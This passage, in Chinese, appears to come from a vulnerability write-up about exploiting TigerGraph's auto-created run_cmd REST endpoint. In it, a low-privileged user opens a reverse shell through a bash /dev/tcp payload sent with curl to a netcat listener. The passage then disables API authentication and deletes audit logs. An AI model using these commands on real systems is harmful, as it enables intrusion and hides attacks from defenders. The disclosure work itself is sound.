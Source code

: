 ### 3.远程获取 Shell

请注意在安装查询之前显示的消息：

```sql
run_cmd query: curl -X GET 'http://127.0.0.1:9000/query/test/run_cmd?cmd=VALUE'. Add -H "Authorization: Bearer TOKEN" if authentication is enabled.
```

此消息让我们知道 TigerGraph 已自动为`run_cmd`查询创建了一个 REST API。因此，下一步是获取一个以`tigergraph`用户身份运行的反向 Shell，但使用仅有*最低*权限的用户`alice`执行此操作。

为了使其正常工作，您将需要一台可以将网络流量路由到外部地址和端口的机器。在此示例中，我们使用 IP 地址`192.168.0.2`和端口`4444`。设置好机器后，打开一个新的控制台窗口并在其中使用 netcat 实用程序来监听网络流量：

```bash
$ nc -l 4444 -v
```

在另一个控制台中，我们只需使用`alice`的授权令牌生成一个 HTTP POST 请求：

```bash
$ curl -X POST \
  -H 'Authorization: Bearer aa4upir75pntu90pckr2ldr395l3hh70' \
  http://localhost:14240/restpp/query/test/run_cmd \
  -d '{"cmd": "bash -c \"bash -i >& /dev/tcp/192.168.0.2/4444 0>&1\""}'
{"error":true,"message":"The query didn't finish because it exceeded the query timeout threshold (16 seconds). Please check GSE log for license expiration and RESTPP/GPE log with request id (65548.RESTPP_1_1.1659629508618.N) for details. Try increase RESTPP.Factory.DefaultQueryTimeoutSec or add header GSQL-TIMEOUT to override default system timeout. ","results":[],"code":"REST-3002"}%
```

**请注意**，需要稍微修改 URL，因为我们正在将流量转发到 Docker 容器中。

Shell 会话将在您的第一个窗口中打开，您可以在其中以`tigergraph`用户身份自由执行命令：

```bash
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/app/3.5.3/bin$ unset LD_PRELOAD
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/app/3.5.3/bin$ id
id
uid=1000(tigergraph) gid=1000(tigergraph) groups=1000(tigergraph)
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/app/3.5.3/bin$ pwd
pwd
/home/tigergraph/tigergraph/app/3.5.3/bin
```

### 4. 规避安全功能和泄露数据

现在我们作为管理用户拥有 Shell 访问权限，现在可以禁用 REST API 的身份验证，并且可以删除系统审计日志的选择以覆盖攻击：

```bash
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/app/3.5.3/bin$ unset LD_PRELOAD
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/app/3.5.3/bin$ gadmin config set RESTPP.Factory.EnableAuth false
[   Info] Configuration has been changed. Please use 'gadmin config apply' to persist the changes.
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/app/3.5.3/bin$ gadmin config apply
[   Note] Changes:
RESTPP.Factory.EnableAuth: true -> false
Proceed to apply? (y/N)y
[   Info] Successfully applied configuration change. Please restart services to make it effective immediately.
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/app/3.5.3/bin$ gadmin restart restpp nginx gui gsql -y
[   Info] Stopping NGINX RESTPP GSQL GUI
[   Info] Starting ZK ETCD DICT KAFKA ADMIN GSE NGINX GPE RESTPP KAFKASTRM-LL KAFKACONN GSQL GUI
tigergraph@149bd9633fa6:/home/tigergraph/tigergraph/log$ rm gsql/* restpp/* controller/*
```
